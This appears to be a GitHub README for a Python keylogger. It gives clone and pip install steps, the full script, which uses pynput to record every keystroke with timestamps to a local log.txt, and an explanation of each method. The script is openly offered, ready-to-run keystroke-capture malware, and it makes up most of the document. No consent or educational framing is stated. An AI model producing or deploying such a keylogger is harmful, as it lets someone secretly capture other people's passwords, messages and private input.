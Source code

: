 
# Keylogger

This Python script implements a simple keylogger using the pynput library to capture keystrokes. The script runs in the background, recording keys pressed on the keyboard and saving them to a log file (log.txt).

## Installation

1. Clone the repo or just copy the script to a desired .py file

```bash
git clone https://github.com/yaxhx/keylogger.git
cd keylogger

```
2. Install the pynput library

```bash
pip install pynput

```


## Usage

1. Run the script
```javascript
python key.py

```
2. Stop the script
```bash
Press the 'Esc' key to stop the keylogger.

```

## Script
```python
from pynput import keyboard
import time
import threading
import os
import datetime

class KeyLogger:
    def __init__(self):
        self.keys = []
        self.running = False
        self.file_name = 'log.txt'

    def start(self):
        self.running = True
        self.listener = keyboard.Listener(on_press=self.on_press, on_release=self.on_release)
        self.listener.start()

    def stop(self):
        self.running = False
        self.listener.stop()

    def on_press(self, key):
        if key == keyboard.Key.esc:
            self.stop()
        else:
            self.keys.append(key)

    def on_release(self, key):
        pass

    def write_keys(self):
        while self.running:
            if self.keys:
                with open(self.file_name, 'a') as f:
                    f.write(str(datetime.datetime.now()) + '\n')
                    for key in self.keys:
                        f.write(str(key) + '\n')
                self.keys = []

    def run(self):
        self.start()
        writer = threading.Thread(target=self.write_keys)
        writer.start()
        while self.running:
            time.sleep(1)

    def main(self):
        self.run()

if __name__ == "__main__":
    keylogger = KeyLogger()
    keylogger.main()
```
## Features

- Captures all key presses.
- Records the timestamp of each capture session
- Saves logs to a file (log.txt).
- Stops logging when the Esc key is pressed.

## Script Overview

***'KeyLogger' Class***
>The KeyLogger class contains methods to start, stop, and run the keylogger.

- ***`__init__()`***: Initializes the keylogger, sets up an empty list to store keys, and sets the log file name.

- ***`start()`***: Starts the key listener.
- ***`stop()`***: Stops the key listener.
- ***`on_press(key)`***: Handles key press events. If the Esc key is pressed, it stops the keylogger; otherwise, it adds the key to the list.

- ***`on_release(key)`***: Placeholder for key release events (not used).

- ***`write_keys()`***: Writes the captured keys to the log file at regular intervals.
- ***`run()`***: Starts the key listener and the logging thread.
- ***`main()`***: Entry point to run the keylogger.

![](https://media.giphy.com/media/xTiTnBELA6Mb1TeeOc/giphy.gif?cid=790b7611daqio7016ovb4mlaptxdctxr6gzfc2zkg01ai0lc&ep=v1_gifs_search&rid=giphy.gif&ct=g )

# Keylogger
# Keylogger
